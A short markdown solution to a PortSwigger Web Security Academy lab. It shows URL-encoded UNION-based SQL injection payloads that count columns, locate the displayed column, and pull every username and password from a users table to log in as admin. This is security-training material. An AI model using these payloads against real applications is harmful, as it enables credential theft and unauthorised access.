






[Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables.

There is another table in the database called `users` that contains `username` and `password` columns.

To solve the lab, perform a `UNION` SQL injection attack that will extract all usernames and passwords, and then use this information to log in as the admin user.
## Solution
Go to the site



Check that we really have 2 columns
```SQL
'+UNION+SELECT+NULL,NULL--
```



Check which column is displayed on the page. This is the second
```SQL
'+UNION+SELECT+NULL,'NULL'--
```



Now, instead of the second `NULL` we insert what we want to get
```SQL
'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--
```



Log in as admin





